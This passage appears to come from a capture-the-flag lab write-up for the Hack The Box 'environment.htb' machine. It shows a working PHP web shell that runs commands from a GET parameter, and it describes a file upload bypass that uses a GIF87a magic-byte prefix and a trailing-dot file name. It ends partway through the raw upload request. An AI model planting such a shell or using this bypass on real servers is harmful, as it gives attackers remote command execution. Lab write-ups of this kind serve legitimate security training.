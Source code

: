## File Upload Bypass

Trying to upload a plain PHP shell won't work, because backend checks for 'magic bytes' inside file contents to check if file is an actual image or not.

So we need to find a way to bypass these checks and somehow upload a shell

### Shell upload

I will use this site with a variety of remote shells for different languages: https://www.revshells.com/
In this case, since the site runs on PHP, I chose the following:

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Backend probably has bad regex check on filename parameter, because I could upload a file named as `index.gif.php.` with the dot in the end, PHP cmd shell inside and magic bytes in request to bypass MIME type checking.

To bypass the magic bytes check, simply add the string `GIF87a` before our shell for gif file types, and also add a period at the end of the file name, which is truncated on the server side and gets converted to the usual `index.gif.php`.

```http
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 680
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyqgqevjtjeuKysRj
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InpRTit5azYwcm1kcnl3SUgxVUlqa2c9PSIsInZhbHVlIjoiTytCOG9rclVwNkdVdDVQQnVoVEVTelRJZVpKK1pHb2k2UzlvWEIrekw3YzhjNTRKNDFBYkU2Q0tRbnZhRkVncjQwN1NxWU4wV0FhL0E3RjM2dWdaTTFsT1EvT1lXcXplR3BmMTRGWDdXb3ZuMmhlS2U4bjFvOTNHMk51S01PLzQiLCJtYWMiOiI0MmM3MjczZjkxYjA5ZTRiNmM4ZWJjNDFiNWY2ODE2MzI4YWI5NzYzNmU0YjJiZDBkOTEyY2JhYmFlNDIxNDUyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImJZaWFGWFBKRk80ZGkycXVVRXhpK2c9PSIsInZhbHVlIjoidlp0SEpSdGFkeTJkYnRETzNGc0Q4MkgwTzFhSWpTYXNzWVdmU3lHK3A0WHEwQUpkZ1dkSzNPM2E2RmZoVkZZZnZNZnFqWjcxNmR3emxTSXF3N2E0YWJNVndxazhuY081NUpPeWpFcW1MMU5FSVp5WW9RVGFjcCtJK0wzOUYydmciLCJtYWMiOiIxMWVjZmM1NTM5NWI0ZGMzMDhlMTM2YTkwNjZhNTI4Y2FjMGEyOGVmZDFkNTBiYWQxNTAyZmViNTAwMDliODFiIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="_token"

```
